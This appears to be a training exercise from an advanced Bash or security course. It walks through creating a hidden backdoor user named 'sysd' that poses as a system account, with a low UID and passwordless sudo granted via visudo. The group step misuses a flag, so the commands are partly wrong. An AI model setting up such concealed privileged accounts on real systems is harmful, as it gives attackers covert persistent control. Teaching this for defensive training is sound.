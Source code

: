 # Advanced Bash - Owning the System

Step 1: Shadow People
    1.	Create a secret user named sysd. Make sure this user doesn't have a home folder created:
    •	sudo useradd sysd

    2.	Give your secret user a password:
    •	sudo passwd sysd

    3.	Give your secret user a system UID < 1000:
    •	sudo usermod -u 400 sysd

    4.	Give your secret user the same GID:
    •	sudo groupmod -u 400 sysd

    5.	Give your secret user full sudo access without the need for a password:
        •	sudo visudo
    
![see photo](/images/picture1.png)